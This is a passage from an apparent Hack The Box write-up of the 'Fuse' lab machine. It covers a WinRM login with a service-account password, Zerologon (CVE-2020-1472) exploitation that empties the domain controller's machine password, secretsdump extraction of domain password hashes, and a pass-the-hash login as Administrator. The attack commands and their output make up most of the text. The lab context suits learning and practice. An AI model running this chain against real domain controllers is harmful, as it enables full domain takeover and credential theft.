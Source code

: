 ```shell
ezi0x00@kali:~/HTB/Fuse$ evil-winrm -u svc-print -p '$fab@s3Rv1ce$1' -i fuse.htb                    

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-print\Documents> whoami
fabricorp\svc-print
```
go to desktop and you will found `user flag`

## Privilege escaltion
So how we can get root after thinking, found i can use `Zerologon` 
>Zerologon: instantly become domain admin by subverting Netlogon cryptography (CVE-2020-1472).

so i found this [**POC**](https://github.com/risksense/zerologon) to help me 

```shell
ezi0x00@kali:~/HTB/Fuse$ python3 set_empty_pw.py FUSE 10.10.10.193
Performing authentication attempts...
================================================================================================================================
NetrServerAuthenticate3Response
ServerCredential:             
    Data:                            b'\xe5\x8b\x16\x1c\xac\x19\x82\x18'
NegotiateFlags:                  556793855
AccountRid:                      1000
ErrorCode:                      0
```
Reinstalling the original hash is necessary for the DC to continue to operate normally.
```shell
ezi0x00@kali:~/HTB/Fuse$ secretsdump.py -just-dc -no-pass FUSE\$@10.10.10.193
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:370ddcf45959b2293427baa70376e14e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:8ee7fac1bd38751dbff06b33616b87b0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

.....
```
we don't need to crack hash to get password `evil-winrm` can login by hash 

```shell
ezi0x00@kali:~$ sudo evil-winrm -i 10.10.10.193 -u Administrator -H '370ddcf45959b2293427baa70376e14e'[sudo] password for ezi0x00: 

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd..
*Evil-WinRM* PS C:\Users\Administrator> ls


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         6/1/2020   2:03 AM                Contacts
d-r---         6/1/2020   2:03 AM                Desktop
```
